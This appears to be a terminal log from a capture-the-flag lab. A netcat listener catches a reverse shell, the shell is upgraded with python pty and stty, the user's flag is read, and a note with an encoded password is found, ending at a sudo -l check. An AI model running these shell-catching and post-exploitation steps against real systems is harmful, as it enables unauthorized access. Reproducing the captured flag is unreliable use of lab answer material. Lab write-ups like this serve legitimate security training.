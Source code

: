 

:~/Devie# nc -nlvp 1234
Listening on 0.0.0.0 1234
Connection received on 10.201.41.12 34336
bash: cannot set terminal process group (785): Inappropriate ioctl for device
bash: no job control in this shell
bruce@ip-10-201-41-12:~$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
bruce@ip-10-201-41-12:~$ ^Z
[1]+  Stopped                 nc -nlvp 1234
root@ip-10-201-68-205:~/Devie# stty raw -echo; fg
nc -nlvp 1234

bruce@ip-10-201-41-12:~$ export TERM=xterm
bruce@ip-10-201-41-12:~$ pwd
/home/bruce
bruce@ip-10-201-41-12:~$ id
uid=1000(bruce) gid=1000(bruce) groups=1000(bruce)
bruce@ip-10-201-41-12:~$ ls
checklist  flag1.txt  note
bruce@ip-10-201-41-12:~$ cat flag1.txt
THM{Car3ful_witH_3v@l}
bruce@ip-10-201-41-12:~$ 


bruce@ip-10-201-41-12:~$ ll
total 44
drwxr-xr-x 4 bruce bruce 4096 Feb 20  2023 ./
drwxr-xr-x 5 root  root  4096 Sep 12 04:58 ../
lrwxrwxrwx 1 root  root     9 May 13  2022 .bash_history -> /dev/null
-rw-r--r-- 1 bruce bruce  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 bruce bruce 3771 Feb 25  2020 .bashrc
drwx------ 2 bruce bruce 4096 May 12  2022 .cache/
-rw-r--r-- 1 root  root   158 Feb 19  2023 checklist
-rw-r----- 1 root  bruce   23 May 12  2022 flag1.txt
-rw-r--r-- 1 root  root   355 Feb 20  2023 note
-rw-r--r-- 1 bruce bruce  807 Feb 25  2020 .profile
-rw-rw-r-- 1 bruce bruce   75 May 12  2022 .selected_editor
drwx------ 2 bruce bruce 4096 May 12  2022 .ssh/
-rw------- 1 bruce bruce    0 May 12  2022 .viminfo
bruce@ip-10-201-41-12:~$ cat note
Hello Bruce,

I have encoded my password using the super secure XOR format.

I made the key quite lengthy and spiced it up with some base64 at the end to make it even more secure. I'll share the decoding script for it soon. However, you can use my script located in the /opt/ directory.

For now look at this super secure string:
NEUEDTIeN1MRDg5K

Gordon
bruce@ip-10-201-41-12:~$ cat .bash_history
bruce@ip-10-201-41-12:~$ cat checklist
Web Application Checklist:
1. Built Site - check
2. Test Site - check
3. Move Site to production - check
4. Remove dangerous fuctions from site - check
Bruce
bruce@ip-10-201-41-12:~$ sudo -l
Matching Defaults entries for bruce on ip-10-201-41-12:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
